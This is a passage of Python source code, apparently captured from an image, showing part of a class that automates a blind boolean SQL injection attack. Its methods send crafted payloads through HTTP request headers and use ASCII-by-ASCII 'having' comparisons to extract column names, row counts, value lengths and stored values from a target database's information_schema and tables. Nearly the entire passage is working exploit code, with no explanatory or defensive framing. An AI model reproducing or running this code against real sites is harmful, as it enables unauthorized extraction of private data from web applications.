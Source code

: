 ```python
                self.process('{0} get_column_name'.format(str(i)),j,100)
                payload = "1' and (select ascii(substring(group_concat(column_name),{0},1)) as a from information_schema.columns where table_schema=database() and table_name='{1}' having a={2})#".format(str(i),table_name,str(j))
                html = self.s.get(self.url,headers=self.get_headers(payload)).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) == self.column_length[0]:
            self.column_name.append(name)
            print('\n==>',self.column_name[0])
        else:
            print('\ncan not get the column_name')
    def get_word_num(self,table_name,column_name):
        for i in range(1,100):
            self.process('get_word_num',i,30)
            payload = "1' and (select count({0}) as a from {1} having a={2})#".format(column_name,table_name,str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.word_num = i
                break
        if self.word_num > 0:
            print('\n==>',self.word_num)
        else:
            print('\ncan not get the word_num')
    def get_word_length(self,table_name,column_name):
        for i in range(1,200):
            self.process('get_{0}_length'.format(column_name),i,200)
            payload = "1' and (select length(group_concat({0})) as a from {1} having a={2})#".format(column_name,table_name,str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.word_length.append(i)
                break
        if len(self.word_length) >= 1:
            print('\n==>',self.word_length)
        else:
            print('\ncan not get the word length') 
    def get_word_name(self,table_name,column_name,word_num):
        name = ''
        for i in range(1,self.word_length[word_num]+1):
            for j in self.zifuji:
                self.process('get_{0}_name'.format(str(i)),j,100)
                payload = "1' and (select ascii(substring(group_concat({0}),{1},1)) as a from {2} having a={3})#".format(column_name,str(i),table_name,str(j))
                html = self.s.get(self.url,headers=self.get_headers(payload)).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        self.word_name.append(name)
        print('\n==>',self.word_name[word_num])
```
